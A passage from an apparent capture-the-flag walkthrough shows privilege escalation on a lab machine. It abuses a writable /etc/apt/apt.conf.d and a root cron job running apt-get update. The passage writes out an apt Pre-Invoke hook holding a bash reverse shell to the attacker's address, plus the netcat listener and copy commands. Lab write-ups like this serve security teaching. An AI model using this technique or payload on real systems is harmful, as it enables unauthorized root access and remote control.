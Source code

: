 ```

0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Jul 31 21:51:56 2021 from 10.10.14.22
```


## APT update
Checking for groups again we see that john is in the management group which can write to the `/etc/apt/apt.conf.d` directory.

```
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
john@writer:~$ find /  -group management -ls 2>/dev/null
    17525      4 drwxrwxr-x   2 root     management     4096 Jul 31 21:56 /etc/apt/apt.conf.d
```

Checking for running processes there is a cronjob running with apt-get update. This means we can place a `apt::Update::Pre-Invoke` command inside the `/etc/apt/apt.conf.d` and achieve RCE this way.

```
john@writer:~$ ps -eaf --forest
UID          PID    PPID  C STIME TTY          TIME CMD
root           2       0  0 19:00 ?        00:00:00 [kthreadd]
root           3       2  0 19:00 ?        00:00:00  \_ [rcu_gp]
...[snip]...
root       84603     999  0 21:56 ?        00:00:00  \_ /usr/sbin/CRON -f
root       84612   84603  0 21:56 ?        00:00:00      \_ /bin/sh -c /usr/bin/apt-get update
...[snip]...
```

First we create a Pre-Invoke command containing a reverse shell.

`000evil`
```
apt::Update::Pre-Invoke {"bash -c 'bash -i >& /dev/tcp/10.10.14.22/7575 0>&1'"};
```

We then set up a ncat listener on the port we specified.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Copy the file to `/etc/apt/apt.conf.d/`.

```
john@writer:~$ cp 000evil /etc/apt/apt.conf.d/
```
